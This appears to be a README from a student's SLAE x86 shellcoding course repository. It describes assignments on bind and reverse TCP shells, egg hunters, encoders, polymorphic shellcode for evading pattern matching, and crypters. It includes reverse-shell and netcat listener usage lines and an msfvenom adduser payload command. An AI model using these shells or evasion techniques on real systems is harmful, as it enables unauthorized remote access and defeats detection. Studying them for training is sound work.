 <img src="SHELLCODING32.png" alt="SLAEx86" width="100"/>

# x86 Assembly Language and Shellcoding on Linux
# SLAEx86 : Student ID: PA-1191
### Assignment 1
Create a Shell Bind TCP Shellcode
- Binds to a port
- Execs shell on incoming connection
- Port number should be easily configurable
```
Implemeted the TCP Bind Shell shellcode 
Usage : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o bind_shell
=> ./bind_shell <PORT_TO_BIND>

Victim Machine => ./bind_shell 9999 

Attacker Machine => nc 127.0.0.1 9999

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-bind-shell-shellcode.html
```
### Assignment 2
Create a Shell Reverse Tcp Shellcode
- Reverse connect to configured IP and Port
- Execs shell on incoming connection
- IP and Port should be easily configurable
```
Implemeted the TCP Reverse Shell shellcode 
Usage : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o reverse_shell
=> ./reverse_shell <ATTACKER_IP TO CONNECT> <ATTACKER_PORT_TO_CONNECT>

Attacker Machine => nc -nlvp 8888

Victim Machine => ./reverse_shell 127.0.0.1 8888  

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-reverse-shell.html
```
### Assignment 3
Study about Egg Hunter Shellcode
- Create a working demo of the Egg Hunter
- Should be configurable for different payload
```
Usage: 

Open the  egghunter_c_wrapper.c and put the any shellcode in the shellcode array location
=> gcc egghunter_c_wrapper.c -o egghunter_c_wrapper.o -zexecstack -fno-stack-protector
=> ./egghunter_c_wrapper.o

Blog : https://oxhat.blogspot.com/2019/04/egg-hunter-shellcode.html
Additional Blog on how i exploited a bof using egg hunter : https://oxhat.blogspot.com/2018/04/why-do-we-need-egg-hunters.html
```
### Assignment 4
Create a custom encoding scheme  like "Insertion Encoder" we showed you
- Poc using execve-stack as the shellcode to encode your schema and execute
```
Implemented a custom encoder where each shellcode value is xored and duplicated to generate the final shellcode
Implemented a custom decoder to decode the encoded shellcode

Usage:
generating encoded shellcode 

Put the shellcode inside the custom_insertion_encoder.py
=> python custom_insertion_encoder.py

decoding and executing
copy and put the encoded shellcode inside the nasm file
=> nasm custom_insertion_decoder.nasm -felf32 -o custom_insertion_decoder.o
=> ld custom_insertion_decoder.o -o custom_insertion_decoder
=> ./custom_insertion_decoder

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-insertion-encoder-and.html
```
### Assignment 5
Take up at least 3 shellcode sample created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis
```
As msfpayload is outdate, all the payloads are created using msfvenom

1. Analysis of linux/x86/adduser shellcode

2. Analysis of linux/x86/chmod shellcode

3. Analysis of linux/x86/exec shellcode

Usage:

Shellcode Generation:
=> msfvenom --platform linux --arch x86 --payload linux/x86/adduser USER=slae PASS=slaeslae -i0 -f hex

Shellcode Analysis
=> echo -ne "Some shellcode \xaa\xbb" | ndisasm -u -
=> echo -ne "Some shellcode \xaa\xbb" | /opt/libemu/bin/sctest -vvv -Ss 10000 -G image.dot
=> dot image.dot -Tpng -o image.png

Blog : https://oxhat.blogspot.com/2019/04/analyzing-shellcode.html
```
### Assignment 6
Take upto 3 shellcode from shell-storm and create a polymorphic versions of them to beat patten matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus point for making it shorter in length than original
```
1. Implemented 2 polmorphic versions of exit() shellcode 

2. Implmented polymorphic version of cat /etc/password shellcode

3. Implemented a polymorphic and obfuscated version of commandline netcat 

Blog : https://oxhat.blogspot.com/2019/04/polymorphic-shellcodes.html
```
### Assignment 7
Create a custom crypter like the one shown in "crypters" video.
- Free to use any existing encryption schema.
- Can use any programming language.
```
1. Implemented a crypter with encrytion based on one time pad.

Usage:

put the shellcode and passcode in genkey.py
=> python genkey.py
Copy the key
copy the encrypted shellcode in the shellcode array in assignment7.c
=> gcc assignment7.c -o crypter -zexecstack -fno-stack-protector
=> ./crypter <KEY>

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-crypter.html 
```
### Additional Assignments
```
1. Implemented a shellcode for chdir() 
```
### Scripts
```
1. Implmented a bash automation script to generate shellcode from binary
usage: 

=>dump.sh binary
There is also an extended version of this inside the same directory.
Sometimes the script does not dump all the shellcode properly so the extended version is used.

2. Implemented an automation script to generate a C code with an embedded shellcode inside it.
usage :

=>python shellcode_template.py filename.c "\x41\x41\x41x\41"
```
